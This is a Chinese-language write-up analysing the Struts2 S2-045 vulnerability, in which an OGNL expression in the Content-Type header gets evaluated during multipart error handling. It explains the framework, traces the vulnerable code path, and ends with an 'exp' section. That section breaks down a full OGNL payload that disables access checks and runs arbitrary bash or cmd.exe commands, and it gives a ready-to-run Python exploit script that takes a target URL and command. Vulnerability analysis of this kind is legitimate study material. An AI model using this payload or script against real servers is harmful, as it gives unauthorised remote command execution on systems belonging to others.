









## Struts2 045 漏洞分析
### 目录
- 基础知识
- Struts2 045 源码分析
- exp

由于对JAVA和Struts都不熟悉，所以在分析过程当中很多转换都不理解，只能理清代码运行过程。
### 1.基础知识
#### 1. 什么是Struts？

一套用于创建企业级Java Web 应用的开源MVC框架。

#### 2. 什么是Struts2 045漏洞？

Struts2 045漏洞是由于异常处理函数对Content-Type的内容进行ognl表达式解析，导致可以在服务器上执行任意命令。

#### 3. Struts2的处理流程


从上面的流程图可以看到，

1.客户端产生一个HttpServletRequest的请求

2.请求经过一系列的过滤器（ActionContextCleanUp、SiteMesh），过滤器对所有的请求都起到作用，主要用来对请求添加，修改或者分派转发至Action处理业务逻辑。

3.FilterDispatcher（有一些是StrutsPrepareAndExecuteFilter）被调用，并询问ActionMapper来决定这个请求是否需要调用某个Action来处理这个请求。

4.然后再经过拦截器，拦截器能对配置文件中匹配的 request 进行处理，并能获取 request 当中的上下文环境及数据。

5.最后将结果返回。
#### 4. 什么是OGNL？
OGNL是Object-Graph Navigation Language的缩写，它是一种功能强大的表达式语言（Expression Language，简称为EL），通过它简单一致的表达式语法，可以存取对象的任意属性，调用对象的方法，遍历整个对象的结构图，实现字段类型转化等功能。

在Struts2中，使用Ognl表达式作为字符串与对象之间转换的一种实现，通过Ognl表达式可以轻松做到String与Object之间的沟通。

### 2.Struts2 045 源码分析
从前面的分析可以知道，

查看web.xml文件配置可以看到拦截请求的过滤器是StrutsPrepareAndExecuteFilter：


接下来这个类会执行doFilter()方法，并且执行prepare.wrapRequest调用，因此跳转到PrepareOperations类，可以看到再次调用dispatcher.wrapRequest方法：


在这个方法中，可以看到这里先获取ContenType，判断是否包含multipart/form-data，这也就是后面我们要在ognl表达式中包含multipart/form-data的原因。然后会去new一个MultiPartRequestWrapper对象，


然后在MultiPartRequestWrapper的构造函数中，会调用multi.parse方法，在这里multi=multiPartRequest，会调用JakartaMultiPartRequest类中的parse方法。


在parse方法中调用了processUpload方法，据别人的解析所说，这个方法会判断content-type是否是multipart开头，不是的话引发异常，并将content-type信息放入异常中。不过这个方法我跟踪不到。然后异常会调用buildErrorMessage函数。


接着这个函数会调用LocalizedTextUtil.findText函数：


然后搜索defaultMessage，也就是前面传进来的错误信息，可以找到最开始调用是在
getDefaultMessage函数里面：


继续跟进getDefaultMessage函数,可以发现又被TextParseUtil.translateVariables函数调用：


注意这里的$和%，两者都能告诉执行环境 ${} 或 %{} 中的内容为ognl表达式。


经过很多次TextParseUtil.translateVariables函数之后,错误信息传入TextParser.evaluate函数


最后在OgnlTextParser类中执行ognl表达式：



然后再把结果一步一步返回回去，存进一个数组里，等待geterrors函数调用。
### 3. exp

exp里主要看OGNL表达式，由于对OGNL不熟悉，所以我讲一下我的理解：
```
(#Nike='multipart/form-data')
```
这个是为了满足前面对multipart/form-data包含的判断，又会触发不是以multipart/form-data开头的异常。
```
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm))))
```
通过ognl表达式静态调用获取ognl.OgnlContext的DEFAULT_MEMBER_ACCESS属性(默认是非PUBLIC的属性和方法不可访问)，并将获取的结果覆盖_memberAccess属性，这样就可以绕过SecurityMemberAccess的限制.
```
(#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds))
```
这一段是判断操作系统，如果是linux，调用bash；如果是windows，调用cmd。
```
(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())
```
这一段是执行传递进来的命令，然后通过流来将命令回显内容输出。


写exp的时候发现一个问题，原先是使用requests库来发送请求，但是引发异常：

('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))

查找stackoverflow给出这么一个解决办法，就是用urllib2库，同时增加异常处理，然而还是不知道e.partical是什么。
```
import urllib2
import httplib
from optparse import OptionParser

def struts(url,cmd):

    content_type="${(#Nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).\
    (#cmd='%s').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).\
    (#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"%cmd

    
    request = urllib2.Request(url)
    
    request.add_header('User-Agent',"Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0")
    request.add_header('content-type',content_type)
    
    try:
        page = urllib2.urlopen(request).read().decode('gbk')
    except httplib.IncompleteRead, e:
        page = e.partial

    print page

def main():

    parser=OptionParser()
    parser.add_option("-u",action="store",dest="url",help="url")
    parser.add_option("--cmd",action="store",dest="cmd",help="cmd")
    (options,args)=parser.parse_args()

    struts(options.url,options.cmd)

if __name__=="__main__":
    main()
```
